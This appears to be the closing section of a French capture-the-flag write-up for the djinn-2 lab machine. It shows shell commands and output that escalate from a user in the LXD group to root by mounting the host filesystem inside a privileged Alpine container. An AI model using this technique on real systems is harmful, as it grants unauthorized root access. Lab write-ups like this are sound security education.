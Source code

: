 Puis une fois les fichiers uploadés sur la VM j'importe l'image, je la monte avec le système de fichier hôte et je la lance avec un shell :

```shellsession
nitish@djinn:~$ lxc image import ./alpine*.tar.gz --alias myimage
Image imported with fingerprint: 7b13e5f8c76ca3ec153528e73dbb748daf7deef0dc8b3bb683681f98b66c1b49
nitish@djinn:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | 7b13e5f8c76c | no     | alpine v3.13 (20210218_01:39) | x86_64 | 5.63MB | Nov 25, 2022 at 2:44pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
nitish@djinn:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
nitish@djinn:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
nitish@djinn:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
nitish@djinn:~$ lxc start mycontainer
nitish@djinn:~$ lxc exec mycontainer /bin/sh
~ # ls /mnt/root/root
proof.sh  scripts
~ # . /mnt/root/root/proof.sh
/bin/sh: /mnt/root/root/proof.sh: line 9: figlet: not found
djinn-2 pwned...
__________________________________________________________________________

Proof: cHduZWQgZGppbm4tMiBsaWtlIGEgYm9zcwo=
Path: /root
Date: Fri Nov 25 14:48:18 UTC 2022
Whoami: root
__________________________________________________________________________

By @0xmzfr

Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)

If you enjoyed this then consider donating (https://mzfr.github.io/donate/)
so I can continue to make these kind of challenges.
```

*Publié le 25 novembre 2022*


